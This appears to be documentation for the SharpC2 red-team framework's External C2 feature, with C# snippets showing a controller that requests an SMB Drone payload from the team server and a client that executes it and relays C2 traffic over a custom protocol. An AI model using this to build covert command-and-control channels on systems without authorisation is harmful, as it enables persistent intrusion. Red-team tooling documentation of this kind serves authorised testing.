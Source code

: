 External C2
===========

External C2 allow a 3rd application to act as a communication layer between the SharpC2 team server and Drone payload.  This allows you to implement completely custom C2 protocols without having to modify the core framework.

.. graphviz::

    digraph G {
        rankdir="LR";

        node [shape=box];

        tc [label="Team Server"];
        c1 [label="3rd Party Controller"];
        c2 [label="3rd Party Client"];
        dr [label="Drone"];

        tc <-> c1 [label="C2 Frames"];
        c1 <-> c2 [label="Custom C2 Protocol"];
        c2 <-> dr [label="C2 Frames"];
    }

ExternalC2.NET
==============

The SharpC2 solution contains a .NET library to simplify the process of implementing ExternalC2.  Example Controller and Client projects are also provided.


Controller
==========

The controller can leverage the ``ExternalC2.NET.Server`` namespace.  It must instantiate a new ``ServerController`` class with the IP address and port of the ExternalC2 handler, and then call ``Connect``.


.. code-block::

    if (args.Length != 2)
        {
            Console.WriteLine("demo-controller.exe <address> <port>");
            return;
        }

        var target = IPAddress.Parse(args[0]);
        var port = int.Parse(args[1]);

        // connect to the team server
        var controller = new ServerController(target, port);

        if (!await controller.Connect())
        {
            Console.WriteLine($"Failed to connect to {target}:{port}.");
            return;
        }


It then requests an SMB payload from the team server by providing a pipename.  This is returned in the form of a ``byte[]``.

.. code-block::

    // request payload
    var payload = await controller.RequestPayload(pipename);


The controller must then provide the payload to the 3rd party client.  The client will also need to know the pipename (this could be generated by the client and given to the controller over the custom C2 protocol).  It can then drop into a loop to continuously relay data from the 3rd party client to the team server.

.. code-block::

    while (your client is connected)
    {
        if (client has data)
        {
            // read from client
            var inbound = await YourReadMethod();
                
            // send it to team server
            await controller.SendData(inbound);
                
            // read data from team server
            var outbound = await controller.ReadData();
                
            // send it to the client
            await YourSendMethod(outbound);
        }

        await Task.Delay(100);
    }


Client
======

The client can leverage the ``ExternalC2.NET.Client`` namespace.  It should initiate communication with your 3rd controller and either send or receive a pipename.  A ``ClientController`` class should be instantiated using that pipename.

.. code-block::

    var controller = new ClientController(pipename);


Once the payload has been received from the 3rd party controller, call the ``ExecutePayload`` method.  This will execute the Drone payload and attempt to connect to its SMB named pipe.

.. code-block::

    if (!await controller.ExecutePayload(payload))
    {
        Console.WriteLine("Failed to connect to pipe");
        return;
    }

It can then drop into a loop to continuously relay data from the drone to the 3rd party controller.

.. code-block::

    while (you're connected to the controller)
    {
        // read from drone
        var outbound = await controller.ReadDrone();

        // send to controller
        await YourSendMethod(outbound);

        // read from controller
        var inbound = await YourReadMethod();

        // send to drone
        await controller.SendDrone(inbound);

        await Task.Delay(100);
    }